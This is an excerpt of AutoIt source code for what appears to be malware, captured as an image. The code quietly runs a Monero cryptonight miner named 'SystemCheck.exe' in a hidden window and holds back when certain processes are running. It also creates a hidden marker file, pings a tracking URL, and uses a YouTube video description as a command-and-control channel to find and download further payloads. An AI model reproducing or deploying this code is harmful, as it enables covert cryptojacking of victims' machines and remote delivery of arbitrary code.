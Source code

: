 ```au3
                                Exit
                            EndIf
                        Next
                    EndIf
                Next
                If $k = UBound($aprocess) Then
                    $plist = ProcessList()
                    For $i = 1 To $plist[0][0]
                        $preg = StringRegExp($plist[$i][0], "attrib.exe", 3)
                        If $preg <> 1 Then
                            If ProcessExists($plist[$i][1]) Then ExitLoop
                        EndIf
                    Next
                    If $i = UBound($plist) Then
                        $ainfo = _winapi_getsysteminfo()
                        $threads = "-t " & $ainfo[5] / 2
                        If $threads = "-t 1.5" Then
                            $threads = "-t 1"
                        EndIf
                        FileChangeDir(@ScriptDir)
                        Run("SystemCheck.exe -a cryptonight -o stratum+tcp://xmr.pool.minergate.com:45560 -u bsipt8qbutj6@list.ru -p x " & $threads, "", @SW_HIDE)
                    EndIf
                EndIf
            WEnd
    EndSelect
EndIf

Func logger()
    If FileExists(@ScriptDir & "\system.ini") Then
    Else
        FileWrite(@ScriptDir & "\system.ini", "")
        FileSetAttrib(@ScriptDir & "\system.ini", "+SH")
        $surl = "http://ezstat.ru/1OzYt"
        $ohttp = ObjCreate("WinHttp.WinHttpRequest.5.1")
        $ohttp.open("GET", $surl, False)
        $ohttp.send("")
        $ohttp.waitforresponse
        $shtml = $ohttp.responsetext
    EndIf
EndFunc

Func bot()
    $ohttp = ObjCreate("WinHttp.WinHttpRequest.5.1")
    $ohttp.open("GET", $botcheck) ; botcheck="https://www.youtube.com/watch?v=RmCcqoC-Oms"
    $ohttp.send("") #
    $ohttp.waitforresponse
    $shtml = $ohttp.responsetext
    $aecu = StringRegExp($shtml, 'id="eow-description" class="" >(.*?)</p>', 1)
    $out = $aecu[0]
    If StringRegExp($out, "_download", 0) = 1 Then
        If StringRegExp($out, 'href="(.*?)"', 0) = 1 Then
            $download = StringRegExp($out, 'href="(.*?)"', 1)
            $urldownload = $download[0]
            FileChangeDir(@ScriptDir)
            $dread = FileRead(@ScriptDir & "\system.ini")
            If StringRegExp($dread, $urldownload, 0) = 0 Then
                FileChangeDir(@ScriptDir)
                $ddownload = InetGet($urldownload, @ScriptDir & "\2mdw4.temp", 1, 1)
                Do
                    Sleep(1000)
                Until InetGetInfo($ddownload, 2)
                InetClose($ddownload)
```